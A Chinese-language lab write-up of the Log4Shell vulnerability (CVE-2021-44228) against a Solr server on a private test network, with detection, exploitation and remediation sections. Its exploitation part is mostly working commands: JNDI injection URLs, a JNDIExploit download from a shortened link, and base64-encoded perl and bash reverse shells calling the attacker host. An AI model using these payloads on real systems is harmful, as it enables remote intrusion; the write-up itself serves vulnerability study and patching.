

| 项目          | 详情                                     |
| ----------- | -------------------------------------- |
| **攻击机**     | Kali Linux（IP：192.168.197.10）          |
| **靶机**      | Ubuntu Server 24.04（IP：192.168.197.88） |
| **CVSS 评分** | 10.0（严重）                               |
| **漏洞编号**    | CVE-2021-44228（Log4Shell）              |
| **影响组件**    | Apache Log4j2 2.0-beta9 ~ 2.14.1       |
| **漏洞类型**    | JNDI 注入 → 远程代码执行（RCE）                  |
| **利用条件**    | 应用使用漏洞版 Log4j2 + 用户输入被日志记录             |
| **核心原理**    | `${jndi:ldap://...}` 表达式触发远程类加载        |


### 一、漏洞概述

CVE-2021-44228，又名 Log4Shell，是 Apache Log4j2 日志组件中被发现的远程代码执行（RCE）漏洞，CVSS 评分高达 10.0（满分） 。该漏洞影响 Log4j2 版本 2.0-beta9 到 2.14.1，攻击者只需向目标系统输入包含特定恶意表达式的字符串，即可触发漏洞并执行任意代码，无需任何认证。

> **影响范围**：Log4j2 被广泛应用于各类 Java 应用（如 Solr、Elasticsearch、SpringBoot 应用等），漏洞波及面极广。


### 二、漏洞验证（DNSLog 探测）

**Step 1：获取 DNSLog 域名**

访问 DNSLog 平台（如 `dnslog.cn`），获取一个专属域名，例如 `bu74sz.dnslog.cn`。

**Step 2：构造并发送 Payload**

在浏览器中访问以下 URL：

```
http://192.168.197.88:8983/solr/admin/cores?action=${jndi:ldap://bu74sz.dnslog.cn}
```


**Step 3：查看 DNSLog 回显**

刷新 DNSLog 平台页面，如果看到有 DNS 解析记录，说明漏洞存在。


### 三、漏洞利用（反弹 Shell）

#### 3.1 漏洞原理
DNSLog 探测只能证明漏洞存在，要获取服务器权限需要进一步利用，核心手段是**反弹 Shell**。这一切都建立在 Log4j2 的 **Lookup（查找）机制**之上。

Log4j2 允许在日志信息中使用 `${}` 语法动态插入运行时值，其中 **JNDI Lookup**（即 `${jndi:...}`）是功能最强大的查找方式之一。JNDI（Java Naming and Directory Interface，Java命名与目录接口）是 Java 官方提供的一套 API，允许应用程序通过一个名称去动态查找和访问远程资源，包括 LDAP 目录服务、RMI 远程对象等。开发者本意是用它来读取配置中心或外部服务的数据，但问题在于：**这些表达式的解析过程完全可控，且没有任何白名单或权限校验**。

攻击者正是看中了这一点，构造恶意输入，将 `${jndi:ldap://攻击者IP/恶意类}` 这类字符串注入到应用日志中。Log4j2 在记录日志时，会解析 `${}` 表达式并触发 JNDI 查询，导致服务器主动去连接攻击者搭建的恶意 LDAP 服务。

完整的攻击链路如下：
```
用户可控输入（包含恶意 ${jndi:...}）
         ↓
应用调用 logger.info() 记录该输入
         ↓
Log4j2 解析日志信息，识别出 ${jndi:...} 表达式
         ↓
触发 JNDI Lookup，向攻击者控制的 LDAP 服务器发起请求
         ↓
恶意 LDAP 服务器返回一个包含恶意 Java 类下载地址的引用
         ↓
靶机根据引用地址请求攻击者的 HTTP 服务，下载并加载恶意类
         ↓
恶意类被执行，向攻击机发起反向连接（反弹 Shell）
         ↓
攻击者获得靶机 Shell 权限
```
把上面的攻击链路转化成图，如下所示：




从技术角度看，漏洞的根本成因有两个层面：

1. **Log4j2 层面**：Log4j2 的 JNDI Lookup 功能默认开启，且未对 JNDI 请求的目标地址做任何限制或过滤，导致攻击者可以任意指定 LDAP、RMI、DNS 等协议的服务地址。
2. **JDK 层面**：在 JDK 8u191 之前的版本中，`com.sun.jndi.ldap.object.trustURLCodebase` 参数默认为 `true`，允许 JNDI 从远程 HTTP 服务器动态加载 Java 类并实例化。这个设计原本是为了方便 RMI/LDAP 服务分发对象，却成了攻击者植入恶意代码的通道。

两者叠加，使得攻击者仅需一个简单的字符串注入点，就能实现远程代码执行，无需任何认证。这也是 Log4Shell 被评为 CVSS 10.0（最高严重等级）的核心原因。

#### 3.2 操作步骤
根据上面对原理的说明，具体的攻击流程如下：

1.  攻击者启动恶意 LDAP 服务 + HTTP 服务（托管恶意 Java 类）
2.  向靶机发送包含 ${jndi:ldap:\//192.168.197.10/恶意类} 的 Payload
3.  靶机 Log4j2 解析并连接攻击机的 LDAP 服务
4.  LDAP 服务返回恶意类的引用地址（HTTP 服务）
5.  靶机加载并执行恶意类 → 反向连接攻击机 → 获得 Shell

**Step 1：在攻击机（Kali）上启动 Netcat 监听**

```
nc -lvnp 4444
```

4444 是监听端口，可自行修改。

**Step 2：准备 JNDI 利用工具**

推荐使用 JNDIExploit 工具：

```
# 下载JNDIExploit，请直接在物理机的浏览器中粘贴（开代理），然后拖到kali中
https://bit.ly/3Azqvnq

# 如果在kali直接下载，请使用下面的命令，但是需要开代理
wget https://bit.ly/3Azqvnq -O JNDIExploit-1.2-SNAPSHOT.jar
```

**Step 3：启动恶意 LDAP 服务**
由于在新版kali不能下载Java 8，因此使用docker，并将JNDIExploit挂载到docker容器中。
```
# 拉取 OpenJDK 8 镜像
docker pull eclipse-temurin:8-jdk

# 运行 JNDIExploit 容器
docker run --rm -it \
  -p 1389:1389 \
  -p 8888:8888 \
  -v /root/JNDIExploit.v1.2:/workspace \
  -w /workspace \
  eclipse-temurin:8-jdk \
  java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.197.10 -p 8888
```

- `-i`：指定攻击机 IP（靶机可访问的地址）
- `-p`：指定 HTTP 服务端口，默认 8888

该命令会同时启动 LDAP 服务（默认 1389 端口）和 HTTP 服务（8888 端口）。


**Step 4：构造反弹 Shell Payload**

经过事后分析，发现这里构造反弹 Shell Payload可以选/bin/bash和perl两种，这里先选用perl。

为什么？因为执行下面的命令检查，发现只有/bin/bash和perl可用，其他的例如python在docker环境中都没有，因此不可用，当然在实际环境中可用的手段会更多。
```
ls -l /bin/sh /bin/bash /bin/dash
which nc
which python3 python
which perl
```


>- /bin/bash（Bourne Again SHell）：Linux 中最常用的命令解释器。它的强大之处在于支持高级重定向，比如 >/dev/tcp/...。这其实是 Bash 内置的一个“伪文件”特性，允许你像操作文件一样操作网络连接。
>- perl（Practical Extraction and Reporting Language）：一种成熟的编程语言。它自带强大的 Socket（套接字）库，可以不依赖 Shell 语法，直接用代码建立网络连接。

反弹 Shell 命令需要进行 **Base64 编码**：
```
printf '%s' "perl -e 'use Socket;\$i=\"192.168.197.10\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/bash -i\")};'" | base64
```

得到编码后的字符串：
```
cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTkyLjE2OC4xOTcuMTAiOyRwPTQ0NDQ7c29ja2V0KFMs
UEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxz
b2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RE
T1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIil9Oyc=
```

**Step 5：向靶机发送攻击 Payload**

在浏览器中访问，此时要注意，因为‘+’和‘=’会在传输中被转义成空格，因此需要进行url编码，变成下面的形式后，再访问：
```
http://192.168.197.88:8983/solr/admin/cores?action=${jndi:ldap://192.168.197.10:1389/Basic/Command/Base64/cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTkyLjE2OC4xOTcuMTAiOyRwPTQ0NDQ7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI%2BJlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIil9Oyc%3D}
```


**Step 6：获取反弹 Shell**

查看之前启动的 Netcat 监听窗口，如果成功，将看到靶机的 Shell 连接进来：


此时已成功获得目标服务器的 Shell 权限。

**补充：**

也可以用下面的/bin/bash反弹命令。
```
# 原始反弹命令
bash -c "bash -i >& /dev/tcp/192.168.197.10/4444 0>&1"

# Base64 编码
echo -n 'bash -c "bash -i >& /dev/tcp/192.168.197.10/4444 0>&1"' | base64
```

得到编码串：`YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ny4xMC80NDQ0IDA+JjEi`，拼进 JNDI 表达式并**对整段做 URL 编码**后，最终访问：

```
http://192.168.197.88:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F192.168.197.10%3A1389%2FBasic%2FCommand%2FBase64%2FYmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE5Ny4xMC80NDQ0IDA%2BJjEi%7D
```

### 四、修复方案

1.**优先升级版本**：将Log4j2升级至2.17.1或更高版本（如2.x最新稳定版），官方已在后续版本中默认禁用了JNDI Lookup并移除了相关危险功能。

2.**临时缓解措施**：若无法立即升级，可通过JVM参数禁用Lookup功能：

```
-Dlog4j2.formatMsgNoLookups=true
```

3.**配合WAF规则**：在应用前端部署WAF，对包含`${jndi:`、`${rmi:`等关键字的请求进行拦截，作为临时防御补充。

4.**排查其他Log4j2版本**：Log4j 2.0-beta9至2.14.1均受影响，需全面排查项目依赖，包括间接依赖的Log4j2组件。

5.**注意JDK版本差异**：JDK 8u191及以上版本默认限制了远程类加载，但**不能依赖此特性作为防护手段**，升级Log4j2才是根本解决方案。

>**注意**：无论采用哪种修复方式，部署前务必在测试环境中充分验证，避免对业务造成影响。